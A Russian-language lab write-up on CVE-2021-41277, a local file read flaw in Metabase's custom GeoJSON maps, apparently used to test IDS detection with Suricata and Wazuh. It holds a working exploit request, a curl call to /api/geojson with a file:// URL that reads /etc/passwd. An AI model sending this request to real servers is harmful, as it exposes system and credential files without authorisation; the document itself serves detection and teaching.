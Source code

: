 # CVE-2021-41277

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277)
* [https://www.opencve.io/cve/CVE-2021-41277](https://www.opencve.io/cve/CVE-2021-41277)

Metabase — это платформа для анализа данных с открытым исходным кодом. В уязвимых версиях была обнаружена проблема безопасности с поддержкой пользовательской карты GeoJSON (admin->settings->maps->custom maps->add a map) и возможным использованием и выполнением локальных файлов (включая переменные среды). Эта проблема исправлена ​​в новой версии обслуживания (0.40.5 и 1.40.5), а также во всех последующих версиях.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:3000 будет доступна стартовая страница Metabase

<figure><img src="../../.gitbook/assets/cve-2021-41277(1).png" alt=""><figcaption></figcaption></figure>

Заполните следующую информацию произвольной информацией, она не влияет на реализацию уязвимости

<figure><img src="../../.gitbook/assets/cve-2021-41277(2).png" alt=""><figcaption></figcaption></figure>

Чтобы реализовать уязвимость и прочитаь файл /etc/passwd, выполните следующую команду:

```
curl -v http://ваш-ip:3000/api/geojson?url=file:////etc/passwd
```

<figure><img src="../../.gitbook/assets/cve-2021-41277(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2021-41277(4).png" alt=""><figcaption></figcaption></figure>
